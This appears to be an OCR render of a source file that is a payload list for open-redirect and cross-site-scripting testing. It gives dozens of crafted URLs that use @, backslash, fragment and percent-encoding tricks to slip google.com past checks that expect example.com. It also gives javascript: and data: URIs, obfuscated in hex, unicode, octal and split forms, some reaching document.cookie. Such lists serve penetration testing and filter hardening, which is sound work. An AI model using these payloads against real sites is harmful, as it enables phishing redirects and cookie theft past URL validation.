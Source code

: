 //google.com\@example.com
https://:@google.com\@example.com
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
ja\nva\tscript\r:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
\152\141\166\141\163\143\162\151\160\164\072alert(1)
http://google.com:80#@example.com/
http://google.com:80?@example.com/
http://3H6k7lIAiqjfNeN@example.com+@google.com/
http://XY>.7d8T\205pZM@example.com+@google.com/
http://3H6k7lIAiqjfNeN@example.com@google.com/
http://XY>.7d8T\205pZM@example.com@google.com/
http://example.com+&@google.com#+@example.com/
http://google.com\texample.com/
//google.com:80#@example.com/
//google.com:80?@example.com/
//3H6k7lIAiqjfNeN@example.com+@google.com/
//XY>.7d8T\205pZM@example.com+@google.com/
//3H6k7lIAiqjfNeN@example.com@google.com/
//XY>.7d8T\205pZM@example.com@google.com/
//example.com+&@google.com#+@example.com/
//google.com\texample.com/
//;@google.com
http://;@google.com
@google.com
javascript://https://example.com/?z=%0Aalert(1)
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
http://google.com%2f%2f.example.com/
http://google.com%5c%5c.example.com/
http://google.com%3F.example.com/
http://google.com%23.example.com/
http://example.com:80%40google.com/
http://example.com%2egoogle.com/
/x:1/:///%01javascript:alert(document.cookie)/
/https:/%5cgoogle.com/
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
/http://google.com
/%2f%2fgoogle.com
/google.com/%2f%2e%2e
/http:/google.com
/.google.com
///\;@google.com
///google.com
/////google.com/
